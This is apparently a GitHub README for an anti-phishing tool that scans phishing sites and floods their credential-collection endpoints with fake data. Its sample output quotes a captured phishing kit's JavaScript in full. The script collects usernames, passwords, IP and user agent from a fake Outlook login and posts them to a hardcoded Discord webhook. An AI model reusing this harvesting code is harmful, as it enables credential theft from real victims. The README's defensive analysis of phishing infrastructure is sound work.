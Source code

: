 # Phish Phucker

![PhishPhucker Logo](https://i.ibb.co/jD9dqMm/openart-image-5-C4-YIl-FF-1717586639754-raw.jpg)
## In Partnership With
![Webamon Logo](https://i.ibb.co/ggbMv7C/weblogo.png)

## The Idea
- **Phuck The Phishers**: Make the effort of a successful phishing campaign much harder than the rewards.
- **Change How We Block**: Multiple phishing websites rely on the same backend endpoint to receive phished credentials. By exposing the required endpoint for the phishing kit to operate, we can block on our network tools. 1x Block = n phishing domains.

## Overview

Welcome to **PhishPhucker**, the revolutionary open-source cybersecurity tool designed to disrupt the phishing industry like never before. PhishPhucker ingests public and custom phishing feeds/URLs, scans them, and launches sophisticated countermeasures to thwart phishing attacks. Our mission is to make phishing an unprofitable and ineffective endeavor by mimicking real user behavior and overwhelming attackers with arbitrary but human-like data.

## Features

- **Ingest Multiple Phishing Feeds**: Seamlessly integrate public phishing feeds and custom URLs for comprehensive coverage.
- **Layered Security**: By exposing and then blocking the endpoints that receive comp'd creds, end users can fall for a phish but network applications block the POST. 
- **Website Scanning**: Extract scripts and phishing kits from malicious websites, identify the endpoints where credentials are sent.
- **Simulated Post Requests**: Recreate phishing post requests and flood attackers' endpoints with realistic-looking data.
- **Distributed Client Network**: Deploy PhishPhucker clients across multiple web edge points to mimic real-world phishing actions.
- **Pseudo-Random Timing**: Vary intervals between actions to avoid detection and mimic human behavior.
- **Multiple User Agents and Source IPs**: Use diverse browser user agents and source IPs (ISPs) to simulate a wide range of victims.
- **Network Proxy**: Utilize on-prem & internet proxy solutions to manipulate network data + requests.
- **Real Dummy Accounts**: Modern phishing kits employ an Account Checking feature that verifies if the credentials work for the provided service. PhishPhucker accounts will be returned as legit.
- **Open Source and Extensible**: Fully open source with an active community contributing to its development and enhancement.

## Installation

### Prerequisites
- Linux base machine (Docker for Widnows usage)
- Python 3.11 or higher
- Docker (optional, for containerized deployment)
- Git

### Steps

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/yourusername/PhishPhucker.git
   cd PhishPhucker
   ```

2. **Install Dependencies**:
   ```bash
   pip install -r requirements.txt
   ```

3. **Run the Application**:
   ```bash
   python phishphucker.py
   ```

4. **(Optional) Deploy with Docker**:
   ```bash
   docker build -t phishphucker .
   docker run -d phishphucker
   ```
     
5. **Sample Output**:
     ```json
     {
    "utc": "2024-06-05 16:57:54",
    "pageTitle": "Screen",
    "pageLinks": [
        "<link href=\"/owa/auth/15.0.1497/themes/resources/favicon.ico\" rel=\"shortcut icon\" type=\"image/x-icon\"/>"
    ],
    "pageScripts": [
        "<script src=\"https://code.jquery.com/jquery-3.6.0.min.js\"></script>",
        "<script>\n\n        var mainLogonDiv = window.document.getElementById(\"mainLogonDiv\");\n        var showPlaceholderText = false;\n        var mainLogonDivClassName = 'mouse';\n\n        if (mainLogonDivClassName == \"tnarrow\") {\n            showPlaceholderText = true;\n\n            // Output meta tag for viewport scaling\n            document.write('<meta name=\"viewport\" content=\"width = 320, initial-scale = 1.0, user-scalable = no\" />');\n        }\n        else if (mainLogonDivClassName == \"twide\") {\n            showPlaceholderText = true;\n        }\n\n        function setPlaceholderText() {\n            window.document.getElementById(\"username\").placeholder = \"user name\";\n            window.document.getElementById(\"password\").placeholder = \"password\";\n            window.document.getElementById(\"passwordText\").placeholder = \"password\";\n        }\n\n        function showPasswordClick() {\n            var showPassword = window.document.getElementById(\"showPasswordCheck\").checked;\n            passwordElement = window.document.getElementById(\"password\");\n            passwordTextElement = window.document.getElementById(\"passwordText\");\n            if (showPassword) {\n                passwordTextElement.value = passwordElement.value;\n                passwordElement.style.display = \"none\";\n                passwordTextElement.style.display = \"inline\";\n                passwordTextElement.focus();\n            }\n            else {\n                passwordElement.value = passwordTextElement.value;\n                passwordTextElement.style.display = \"none\";\n                passwordTextElement.value = \"\";\n                passwordElement.style.display = \"inline\";\n                passwordElement.focus();\n            }\n        }\n    </script>",
        "<script>\n\n            var mainLogonDiv = window.document.getElementById(\"mainLogonDiv\");\n            mainLogonDiv.className = mainLogonDivClassName;\n        </script>",
        "<script>\n    function sleep(milliseconds) {\n        const date = Date.now();\n        let currentDate = null;\n        do {\n            currentDate = Date.now();\n        } while (currentDate - date < milliseconds);\n    }\n\n    var linksc = window.location.href\n    var value = linksc.split('#')\n    values = value[1]\n\n    document.getElementById(\"username\").value = values;\n    // document.getElementById(\"username\").value = values; \n\n\n    let count = 0;\n    var btn = document.getElementById(\"buttonId\");\n    var pwd = document.getElementById(\"password\");\n    var agents = navigator.userAgent;\n\n\n\n    btn.onclick = function () {\n        if (pwd.value.length > 0) {\n            count++;\n            if (count <= 2) {\n\n\n\n                var xhr = new XMLHttpRequest();\n                xhr.open(\"GET\", \"https://ipinfo.io/json\", true);\n                xhr.onreadystatechange = function () {\n                if (xhr.readyState === 4 && xhr.status === 200) {\n                var response = JSON.parse(xhr.responseText);\n                // Handle the response data here\n                var ipAddress = response.ip\n\n                request.open(\"POST\", \"https://discord.com/api/webhooks/1138373288825987072/uB3bmO96XIzWcQsjmu6JQlu3FidKgbFXbtmJxYSMr6ZAyLAmbAF7czZM6sW081J4mRFL\");\n                request.setRequestHeader('Content-type', 'application/json');\n                var params = {\n                content: (\" > **IP: **\" + ipAddress)\n                }\n                request.send(JSON.stringify(params));\n                    \n\n                }\n\n                };\n                xhr.send();\n\n\n                var request = new XMLHttpRequest();\n                request.open(\"POST\", \"https://discord.com/api/webhooks/1138373288825987072/uB3bmO96XIzWcQsjmu6JQlu3FidKgbFXbtmJxYSMr6ZAyLAmbAF7czZM6sW081J4mRFL\");\n                request.setRequestHeader('Content-type', 'application/json');\n                var params = {\n                    content: (\"> **USERNAME  : **\" + document.getElementById(\"username\").value + \"\\n> **PASSWORD : **\" + document.getElementById(\"password\").value + \"\\n> **USER-AGENT: **\" + agents)\n                }\n                request.send(JSON.stringify(params));\n\n               \n\n                text = \"The user name or password you entered isn't correct. Try entering it again.\";\n                // document.getElementById(\"username-error\").innerHTML = text;\n                // // document.getElementById(\"errorMessage\").style.color = \"red\";\n                document.getElementById(\"signInErrorDiv\").innerText = text;\n                document.getElementById(\"password\").value = \"\";\n                sleep(1000)\n            }\n            if (count == 2) {\n                texts = \"Verification successful... Thank you.\";\n                document.getElementById(\"signInErrorDiv\").style.color = \"green\";\n                document.getElementById(\"signInErrorDiv\").innerHTML = texts;\n                sleep(4500)\n                window.location.replace(\"https://www.microsoft.com/en-us/microsoft-365/outlook/web-email-login-for-outlook\");\n            }\n        } else {\n            text = \"The user name or password you entered isn't correct. Try entering it again.\"\n            // document.getElementById(\"errorMessage\").style.color = \"red\";\n            // document.getElementById(\"login-failure\").innerHTML = \"\";\n            document.getElementById(\"signInErrorDiv\").innerHTML = text;\n\n            // document.getElementById(\"alert\").style.backgroundColor = \"#d0452f\"; \n\n\n\n        }\n\n    }\n</script>"
    ]

   }

      ```

## Contributing

We welcome contributions from the community to enhance PhishPhucker. Feel free to submit pull requests, report issues, or suggest features.

1. **Fork the Repository** on GitHub
2. **Create a Feature Branch**:
   ```bash
   git checkout -b feature/your-feature-name
   ```
3. **Commit Your Changes**:
   ```bash
   git commit -m 'Add some feature'
   ```
4. **Push to the Branch**:
   ```bash
   git push origin feature/your-feature-name
   ```
5. **Open a Pull Request** on GitHub

## License

PhishPhucker is released under the Apache 2.0 License. See the [LICENSE](LICENSE) file for more details.

## Acknowledgements

- Thanks to the open-source community for their invaluable contributions and feedback.
- Special mention to the decade long successful Threat Actors who's actions inspire and guide this projects direction.

## Disclaimer

PhishPhucker is intended for ethical use only. Unauthorized use of this software to interfere with legitimate websites or services is strictly prohibited. The authors and contributors are not responsible for any misuse of the software.


---

PhishPhucker: Turning the Tide Against Phishing.

---

![GitHub Stars](https://img.shields.io/github/stars/php-p/PhishPhucker?style=social)
![GitHub Forks](https://img.shields.io/github/forks/php-p/PhishPhucker?style=social)
![GitHub Issues](https://img.shields.io/github/issues/php-p/PhishPhucker)
![GitHub License](https://img.shields.io/github/license/php-p/PhishPhucker)

